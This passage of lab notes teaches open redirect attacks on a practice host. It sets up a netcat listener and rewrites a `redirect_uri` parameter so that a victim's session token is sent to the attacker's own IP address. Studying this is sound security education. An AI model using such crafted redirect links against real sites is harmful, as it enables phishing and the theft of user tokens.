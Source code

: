 - ```?newurl=```
- ```?redir=```

### Open redirect example

First, set up a netcat listener:

```bash
nc -lvnp 1337
```

There is an example URL of the following format:

- ```http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>```

Then edit this URL as following:

- ```http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>```

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request captured also includes the token!

**Open redirect vulnerabilities are usually exploited by attackers to create legitimate-looking phishing URLs**. As we just witnessed, though, when a redirection functionality involves user tokens (regardless of GET or POST being used), attackers can also exploit open redirect vulnerabilities to obtain user tokens.